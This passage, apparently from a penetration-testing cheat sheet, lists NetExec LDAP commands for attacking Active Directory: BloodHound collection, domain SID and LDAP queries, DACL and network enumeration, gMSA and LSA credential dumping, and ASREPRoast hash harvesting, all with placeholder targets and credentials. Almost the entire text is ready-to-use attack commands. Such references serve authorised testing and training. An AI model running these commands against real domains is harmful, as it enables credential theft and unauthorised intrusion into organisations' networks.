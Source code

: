 ```console
$ netexec ldap <RHOST> -u '<USERNAME>' -p '<PASSWORD>' -M sccm -o REC_RESOLVE=TRUE
$ netexec ldap <RHOST> -u '<USERNAME>' -p '<PASSWORD>' --bloodhound -ns <RHOST> -c All
$ netexec ldap <RHOST> -u '<USERNAME>' -p '<PASSWORD>' --bloodhound --dns-tcp --dns-server <RHOST> -c All
```

#### Find Domain SID

```console
$ netexec ldap <RHOST> -u '<USERNAME>' -k --get-sid
```

#### LDAP Queries

```console
$ netexec ldap <RHOST> -u '<USERNAME>' -p '<PASSWORD>' --query "(sAMAccountName=Administrator)" ""
$ netexec ldap <RHOST> -u '<USERNAME>' -p '<PASSWORD>' --query "(sAMAccountName=Administrator)" "sAMAccountName objectClass pwdLastSet"
```

#### Domain Access Control List (DACL) Enumeration

```console
$ netexec ldap -k --kdcHost <RHOST> -M daclread -o TARGET=Administrator ACTION=read
$ netexec ldap -k --kdcHost <RHOST> -M daclread -o TARGET=Administrator ACTION=read PRINCIPAL=<USERNAME>
$ netexec ldap -k --kdcHost <RHOST> -M daclread -M daclread -o TARGET_DN="DC=<DOMAIN>,DC=<DOMAIN>" ACTION=read RIGHTS=DCSync
$ netexec ldap -k --kdcHost <RHOST> -M daclread -M daclread -o TARGET=Administrator ACTION=read ACE_TYPE=denied
$ netexec ldap -k --kdcHost <RHOST> -M daclread -M daclread -o TARGET=../../<FILE> ACTION=backup
```

#### Network Enumeration

```console
$ netexec ldap <RHOST> -u '<USERNAME>' -p '<PASSWORD>' -M get-network
$ netexec ldap <RHOST> -u '<USERNAME>' -p '<PASSWORD>' -M get-network -o ONLY_HOSTS=true
$ netexec ldap <RHOST> -u '<USERNAME>' -p '<PASSWORD>' -M get-network -o ALL=true
```

#### Credentials Dumping

```console
$ netexec ldap <RHOST> -u '<USERNAME>' -p '<PASSWORD>' --gmsa
$ netexec ldap <RHOST> -u '<USERNAME>' -p '<PASSWORD>' --gmsa -k
$ netexec ldap <RHOST> -u '<USERNAME>' -p '<PASSWORD>' --gmsa-convert-id <ID>
$ netexec ldap <RHOST> -u '<USERNAME>' -p '<PASSWORD>' --gmsa-decrypt-lsa <ACCOUNT>
```

#### ASREPRoast

```console
$ netexec ldap <RHOST> -u '<USERNAME>' -p '' --asreproast hashes.asreproast
$ netexec ldap <RHOST> -u '<USERNAME>' -p '<PASSWORD>' --asreproast hashes.asreproast
$ netexec ldap <RHOST> -u '<USERNAME>' -p '' --asreproast hashes.asreproast --kdcHost <DOMAIN>
$ netexec ldap <RHOST> -u '<USERNAME>' -p '<PASSWORD>' --asreproast hashes.asreproast --kdcHost <DOMAIN>
```
